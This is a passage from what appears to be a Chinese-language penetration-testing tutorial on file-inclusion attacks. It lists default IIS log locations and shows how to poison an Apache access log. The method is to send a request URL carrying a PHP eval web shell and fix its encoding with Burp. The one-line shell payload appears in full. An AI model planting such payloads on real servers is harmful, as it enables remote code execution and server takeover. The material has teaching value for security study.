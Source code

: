 #### 2.5.1.3. IIS

```
iis6.0版本
C:\windows\system32\LogFiles
iis7.5版本
%SystemDrive%\inetpub\logs\LogFiles
```

### 2.5.2. **包含Apache日志案例**

Apache运行后一般默认会生成两个日志文件，access.log(访问日志)，error.log(错误日志)。

下图就是被转码的，只需要手动修改一下重新发送即可。

```
URL：http://192.168.10.150/<?php @eval($_POST[123]);?>
```

![image-20230413154518598](assets/xPMiX2wAbT1dDcC.png)

在apache/logs/access.log中就能够看到我们植入的恶意代码。编号①是没使用burp修改前的，编号②是使用burp修改后的。

